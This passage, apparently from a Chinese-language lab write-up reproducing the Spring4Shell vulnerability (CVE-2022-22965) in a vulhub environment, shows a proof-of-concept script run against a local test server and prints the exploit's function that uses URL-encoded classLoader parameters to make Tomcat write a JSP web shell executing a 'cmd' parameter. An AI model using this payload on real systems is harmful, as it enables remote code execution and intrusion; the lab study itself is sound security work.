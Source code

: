 ```
调用工具执行。
python vulhub_CVE-2022-22965_poc.py --url http://192.168.15.50:8080/
```

![image-20241127200831786](CVE漏洞复现/image-20241127200831786.png)	

```
在cmd传入命令，即可从web回显出结果。
```

![image-20241127200858472](CVE漏洞复现/image-20241127200858472.png)	

### 原理分析

```
这个exploit.py脚本主要就是这一个函数，log_pattern是设置一句话木马的内容，log_file_suffix设置文件后缀，以此类推设置文件的存储目录，文件名，以及日志日期格式等等。从以下payload其实可以发现就是根据tomcat日志的格式类去设置内容的。
```

```python
def run_exploit(url, directory, filename):
    log_pattern = "class.module.classLoader.resources.context.parent.pipeline.first.pattern=%25%7Bprefix%7Di%20" \
                  f"java.io.InputStream%20in%20%3D%20%25%7Bc%7Di.getRuntime().exec(request.getParameter" \
                  f"(%22cmd%22)).getInputStream()%3B%20int%20a%20%3D%20-1%3B%20byte%5B%5D%20b%20%3D%20new%20byte%5B2048%5D%3B" \
                  f"%20while((a%3Din.read(b))!%3D-1)%7B%20out.println(new%20String(b))%3B%20%7D%20%25%7Bsuffix%7Di"

    log_file_suffix = "class.module.classLoader.resources.context.parent.pipeline.first.suffix=.jsp"
    log_file_dir = f"class.module.classLoader.resources.context.parent.pipeline.first.directory={directory}"
    log_file_prefix = f"class.module.classLoader.resources.context.parent.pipeline.first.prefix={filename}"
    log_file_date_format = "class.module.classLoader.resources.context.parent.pipeline.first.fileDateFormat="
```
